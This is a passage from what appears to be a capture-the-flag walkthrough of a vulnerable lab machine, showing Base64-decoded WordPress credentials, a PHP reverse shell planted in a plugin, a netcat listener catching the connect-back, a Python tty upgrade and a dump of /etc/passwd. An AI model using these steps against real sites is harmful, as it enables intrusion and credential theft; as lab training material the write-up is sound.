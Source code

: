 ```
do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Damn! I have to admit I got trolled by this simple scrolling trick. Shame on me. But w/e, that's a Base64 encoded string for sure, so we can proceed to decode it:

```
root@kali:~# echo "ZWxsaW90OkVSMjgtMDY1Mgo=" | base64 -d
elliot:ER28-0652
```

Are these the precious credentials we are painly trying to find by brute force? After entering them in the WordPress login page, the admin panel appears before our eyes.
	
Oh, well. If we had started here...

## Low-privileged shell

Now we have administrative access, we can go ahead and upload a pretty php shell into any of the plugins that are installed on the site. For the sake of simplicity, let's just use the good old`php-reverse-shell` that comes with Kali. So after setting the listener, and activating the 'modified' plugin, we are all set:

```
root@kali:~# nc -lvvp 443
listening on [any] 443 ...
192.168.56.103: inverse host lookup failed: Unknown host
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 39860
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 20:22:52 up 42 min,  0 users,  load average: 1.65, 1.66, 1.54
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$     
```

Sweet! Time to work on a more acceptable tty shell:

```
$ python -c 'import pty; pty.spawn("/bin/bash");'
daemon@linux:/$ 
```

And let's start peeking around. A quick look to `/etc/passwd` file reveals one interesting user:

```
daemon@linux:/$ cat /etc/passwd
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```
